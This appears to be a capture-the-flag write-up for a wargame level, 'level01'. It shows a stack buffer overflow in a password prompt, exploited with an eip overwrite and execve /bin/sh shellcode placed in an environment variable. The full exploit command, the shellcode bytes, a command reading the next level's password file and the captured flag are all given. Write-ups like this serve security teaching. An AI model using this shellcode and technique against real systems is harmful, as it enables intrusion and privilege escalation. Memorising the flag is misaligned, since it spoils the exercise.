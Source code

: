 # level01

The executable prompts for a username and a password. A wrong username kicks us out, but no matter the password, nothing interesting happens.

We want to input the correct password, and then exploit the password prompt to overwrite `eip` and point to a shellcode. We'll store the shellcode in an env variable.

## **The shellcode**

We reuse our trusty shellcode and check it in `GDB` with :

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01
```

Our nopesled spans from `0xffffddae` to `0xffffdfae`, so we target the middle `0xffffdeae`.

## **The address**

First, we must pass the correct username (`dat_wil`) to the executable by passing `echo "dat_wil"` to `stdin`.

Now, we can look for `eip` in GDB. Simply enough, we find we can overwrite the register with `84 bytes`. Our "password" will be `80 bytes` of garbage, and `4 bytes` for the address of our nopesled, `0xffffdeae`.

## **The command**

We must pass the correct username (`dat_wil`) to the executable before spoofing `eip`.

Stringing everything together we try the following command :

```
( echo "dat_wil" ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01
```

## **The flag**

It works ! In the interactive shell, we run :

```
cat /home/users/level02/.pass
```

We get the flag for `level00` :

```
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```